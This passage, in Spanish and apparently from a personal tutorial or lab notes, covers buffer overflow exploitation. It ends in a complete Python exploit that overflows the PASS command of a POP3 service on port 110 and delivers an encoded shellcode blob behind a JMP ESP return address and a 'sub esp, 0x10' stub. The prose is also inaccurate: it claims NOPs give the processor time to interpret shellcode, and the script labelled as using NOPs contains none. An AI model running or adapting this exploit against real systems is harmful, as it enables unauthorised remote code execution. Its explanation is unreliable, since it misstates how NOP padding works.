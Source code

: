Una vez que se ha encontrado la dirección del opcode que aplica el salto al registro **ESP**, es posible que el shellcode no sea interpretado correctamente debido a que su ejecución puede requerir más tiempo del que el procesador tiene disponible antes de continuar con la siguiente instrucción del programa.

Para solucionar este problema, se suelen utilizar técnicas como la introducción de **NOPS** (**instrucciones de no operación**) antes del shellcode en la pila. Los NOPS no realizan ninguna operación, pero permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.

Otra técnica que se suele utilizar es el desplazamiento en la pila, que implica modificar el registro ESP para reservar espacio adicional para el shellcode y permitir que se ejecute sin problemas. Por ejemplo, se puede utilizar la instrucción “**sub esp, 0x10**” para desplazar el registro ESP **16 bytes** hacia abajo en la pila y reservar espacio adicional para el shellcode.

Ya con esto, ¡habríamos conseguido vulnerar el sistema a través del Buffer Overflow

Script en python para el uso de NOPS

```python 
 1   │ #!/usr/bin/python3
   2   │ from struct import pack
   3   │ import socket
   4   │ import sys
   5   │ 
   6   │ #Variables globales
   7   │ 
   8   │ ip_address = "10.47.1.42"
   9   │ lport = 110
  10   │ offset = 4655
  11   │ 
  12   │ before_eip = b"A"*offset
  13   │ 
  14   │ eip = pack("<L", 0x5f4c4d13)
  15   │ 
  16   │ shell_code = (b"\xb8\x1f\xfa\x24\xd3\xd9\xe5\xd9\x74\x24\xf4\x5b\x29\xc9"
  17   │ b"\xb1\x52\x31\x43\x12\x03\x43\x12\x83\xdc\xfe\xc6\x26\x1e"
  18   │ b"\x16\x84\xc9\xde\xe7\xe9\x40\x3b\xd6\x29\x36\x48\x49\x9a"
  19   │ b"\x3c\x1c\x66\x51\x10\xb4\xfd\x17\xbd\xbb\xb6\x92\x9b\xf2"
  20   │ b"\x47\x8e\xd8\x95\xcb\xcd\x0c\x75\xf5\x1d\x41\x74\x32\x43"
  21   │ b"\xa8\x24\xeb\x0f\x1f\xd8\x98\x5a\x9c\x53\xd2\x4b\xa4\x80"
  22   │ b"\xa3\x6a\x85\x17\xbf\x34\x05\x96\x6c\x4d\x0c\x80\x71\x68"
  23   │ b"\xc6\x3b\x41\x06\xd9\xed\x9b\xe7\x76\xd0\x13\x1a\x86\x15"
  24   │ b"\x93\xc5\xfd\x6f\xe7\x78\x06\xb4\x95\xa6\x83\x2e\x3d\x2c"
  25   │ b"\x33\x8a\xbf\xe1\xa2\x59\xb3\x4e\xa0\x05\xd0\x51\x65\x3e"
  26   │ b"\xec\xda\x88\x90\x64\x98\xae\x34\x2c\x7a\xce\x6d\x88\x2d"
  27   │ b"\xef\x6d\x73\x91\x55\xe6\x9e\xc6\xe7\xa5\xf6\x2b\xca\x55"
  28   │ b"\x07\x24\x5d\x26\x35\xeb\xf5\xa0\x75\x64\xd0\x37\x79\x5f"
  29   │ b"\xa4\xa7\x84\x60\xd5\xee\x42\x34\x85\x98\x63\x35\x4e\x58"
  30   │ b"\x8b\xe0\xc1\x08\x23\x5b\xa2\xf8\x83\x0b\x4a\x12\x0c\x73"
  31   │ b"\x6a\x1d\xc6\x1c\x01\xe4\x81\x28\xf9\xe7\xc8\x45\x07\xe7"
  32   │ b"\xeb\x2e\x8e\x01\x81\x40\xc7\x9a\x3e\xf8\x42\x50\xde\x05"
  33   │ b"\x59\x1d\xe0\x8e\x6e\xe2\xaf\x66\x1a\xf0\x58\x87\x51\xaa"
  34   │ b"\xcf\x98\x4f\xc2\x8c\x0b\x14\x12\xda\x37\x83\x45\x8b\x86"
  35   │ b"\xda\x03\x21\xb0\x74\x31\xb8\x24\xbe\xf1\x67\x95\x41\xf8"
  36   │ b"\xea\xa1\x65\xea\x32\x29\x22\x5e\xeb\x7c\xfc\x08\x4d\xd7"
  37   │ b"\x4e\xe2\x07\x84\x18\x62\xd1\xe6\x9a\xf4\xde\x22\x6d\x18"
  38   │ b"\x6e\x9b\x28\x27\x5f\x4b\xbd\x50\xbd\xeb\x42\x8b\x05\x1b"
  39   │ b"\x09\x91\x2c\xb4\xd4\x40\x6d\xd9\xe6\xbf\xb2\xe4\x64\x35"
  40   │ b"\x4b\x13\x74\x3c\x4e\x5f\x32\xad\x22\xf0\xd7\xd1\x91\xf1"
  41   │ b"\xfd")
  42   │ 
  43   │ payload = before_eip + eip + b"\x83\xEC\x10" + shell_code
  44   │ 
  45   │ def exploit():
  46   │ 
  47   │     # Create a socket
  48   │     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  49   │ 
  50   │     # Connect to the server
  51   │ 
  52   │     s.connect((ip_address, lport))
  53   │     
  54   │     # Revice the banner
  55   │      
  56   │     banner = s.recv(1024)
  57   │ 
  58   │     s.send(b"USER lotus" + b'\r\n')
  59   │     response = s.recv(1024)
  60   │     s.send(b"PASS" + payload + b'\r\n')
  61   │     s.close()
  62   │ 
  63   │ if __name__ == "__main__":
  64   │     exploit()  
```
![[Screenshot (32).png]]

![[Screenshot (30).png]]